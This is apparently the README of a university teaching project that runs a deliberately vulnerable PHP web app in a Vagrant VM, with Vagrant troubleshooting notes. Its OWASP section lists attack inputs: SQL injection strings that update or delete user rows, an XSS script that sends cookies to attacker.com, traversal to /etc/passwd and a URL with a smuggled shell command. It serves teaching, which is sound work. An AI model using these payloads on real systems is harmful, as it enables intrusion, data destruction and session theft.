 # zcu_webapp_security_demo
Small education project demonstrating typical security vulnerabilities in web application.
Created for University of West Bohemia.

## Installation
* Install [VirtualBox](https://www.virtualbox.org/wiki/Downloads)
* Install [Vagrant](https://docs.vagrantup.com/v2/installation/index.html "Vagrant docs - Istallation")
* Install Vagrant plugin for VirtualBox guest additions
```bash
> vagrant plugin install vagrant-vbguest
```
* checkout this repository
```bash
> git clone git@github.com:veny/zcu_webapp_security_demo.git
```
* run vagrant box
```bash
> cd zcu_webapp_security_demo
> vagrant up
```
* for the first time it will take about 15 minutes till vagrant is ready (depending on your internet connection)
* in browser go to http://192.168.33.10/zcu/index.php

## OWASP top 10 examples
* https://www.owasp.org/index.php/Category:OWASP_Top_Ten_Project

### Injection
* put that as password (empty username)
```sql
' OR id='2
' OR username='alfa
```
* or even worst
```sql
'; UPDATE user SET password='123
'; DELETE FROM user WHERE id='8
```

### XSS
* put following text as notice
```html
<b onmouseup=alert("XSS!")>click me!</b>
```
* or even worst
```html
<script>document.location= "http://www.attacker.com/cgi-bin/cookie.cgi?foo="+document.cookie</script>
```

### Broken Session Management
* application with URL rewriting
* no logout and session timeout

### Sensitive Data Exposure
* to monitor HTTP traffic
```bash
root> tcpdump -A -vvv -i vboxnet1 host 192.168.33.10
```

### Cross-Site Request Forgery
* try this: http://192.168.33.10/zcu/index.php?action=create&notice=pokus


### Security Misconfiguration
* Directory listing is not disabled on your server
  * try this: http://192.168.33.10/zcu/list
  * selinux (setenforce 0, setenforce 1)
* Directory traversal
  * for this reason: http://192.168.33.10/zcu/list/fancy_script.php
  * but can be misused: http://192.168.33.10/zcu/list/get_file.php?file=../../../../etc/passwd
  * or: http://192.168.33.10/zcu/list/get_file.php?file=get_file.php
  * or even worst: http://192.168.33.10/zcu/list/get_file.php?file=/proc/1/cmdline;%20ls%20-al%20/


## Where to go next
See https://www.owasp.org/index.php/Category:OWASP_Top_Ten_2013_Project
____


### Vagrant troubleshooting (Fedora 23)

#### 1) Failed to mount folders in Linux guest.
```bash
Failed to mount folders in Linux guest. This is usually because the "vboxsf" file system is not
available. Please verify that the guest additions are properly installed in the guest and  can
work properly. The command attempted was:
mount -t vboxsf -o uid=`id -u vagrant`,gid=`getent group vagrant | cut -d: -f3` opt_zcu_demo /opt/zcu_demo
mount -t vboxsf -o uid=`id -u vagrant`,gid=`id -g vagrant` opt_zcu_demo /opt/zcu_demo
...
/sbin/mount.vboxsf: mounting failed with the error: No such device
```
  - Problem description and solution described here: https://github.com/dotless-de/vagrant-vbguest/issues/170
   - shortly: vagrant ssh, sudo systemctl enable vboxadd, service vboxadd start, vagrant reload, vagrant provision

#### 2) Building the main Guest Additions module fail --> sync folder not mounted
```bash
...
Installing Virtualbox Guest Additions 5.0.10 - guest version is unknown
Verifying archive integrity... All good.
Uncompressing VirtualBox 5.0.10 Guest Additions for Linux............
VirtualBox Guest Additions installer
Removing installed version 5.0.10 of VirtualBox Guest Additions...
Removing existing VirtualBox non-DKMS kernel modules[  OK  ]
Copying additional installer modules ...
Installing additional modules ...
Removing existing VirtualBox non-DKMS kernel modules[  OK  ]
Building the VirtualBox Guest Additions kernel modules
The headers for the current running kernel were not found. If the following
module compilation fails then this could be the reason.
The missing package can be probably installed with
yum install kernel-devel-3.10.0-229.14.1.el7.x86_64

Building the main Guest Additions module[FAILED]
(Look at /var/log/vboxadd-install.log to find out what went wrong)
...
```
   - shortly: vagrant ssh, sudo yum update, Ctrl+D, vagrant reload
